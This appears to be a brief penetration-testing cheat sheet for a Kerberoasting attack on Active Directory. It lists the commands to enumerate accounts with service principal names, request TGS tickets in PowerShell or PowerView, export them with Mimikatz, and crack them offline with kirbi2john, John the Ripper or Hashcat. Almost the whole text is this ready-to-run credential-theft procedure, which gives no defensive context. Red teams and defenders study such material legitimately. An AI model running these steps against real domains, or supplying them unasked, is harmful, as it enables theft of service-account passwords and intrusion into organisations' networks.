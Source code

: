 #Kerberoast

1. Get-NetUser -SPN

Pick your target

2. Request a TGS

`Add-Type -AssemblyName System.IdentityModel New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "<SPN NAME>"`


OR

`Request-SPNTicket` from PowerView for cracking with John or Hashcat

Now we run Mimikatz to drop the generated .kirbi tickets for offline cracking!

use kirbi2john.py and then jtr to crack!

